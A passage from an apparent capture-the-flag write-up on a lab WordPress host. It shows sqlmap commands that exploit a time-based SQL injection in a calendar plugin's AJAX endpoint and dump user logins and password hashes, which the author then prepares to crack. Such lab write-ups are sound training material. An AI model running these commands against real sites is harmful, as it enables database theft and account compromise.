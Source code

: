 # RCE

One of the CVEs is a remote command injection vulnerability. However, exploiting it required authentication, meaning I had to log in first.

## Sqlmap

It is possible to dump the db by running the following command

`sqlmap -u "http://mountaineer.thm/wordpress/wp-admin/admin-ajax.php?action=mec_load_single_page&time=2" -p time --dump`

However, the dump can take time since it is a time based sqli. To make it go faster, you can try to first dump the different tables by using `sqlmap -u "http://mountaineer.thm/wordpress/wp-admin/admin-ajax.php?action=mec_load_single_page&time=2" -p time --tables` or simply search for interesting wordpress table from https://learn.wordpress.org/tutorial/the-wordpress-database/.

### Dumped creds

`wp_user` contains the users credentials, to dump it:

`sqlmap -u "http://mountaineer.thm/wordpress/wp-admin/admin-ajax.php?action=mec_load_single_page&time=2" -D wordpress -T wp_users -C user_login -p time --dump`

![](./assets/usernames.png)

`sqlmap -u "http://mountaineer.thm/wordpress/wp-admin/admin-ajax.php?action=mec_load_single_page&time=2" -D wordpress -T wp_users -C user_pass -p time --dump`

![](./assets/user_pass.png)

### Hashes type and cracking

I saved the hashes into files and looked for their type on https://hashes.com/en/tools/hash_identifier
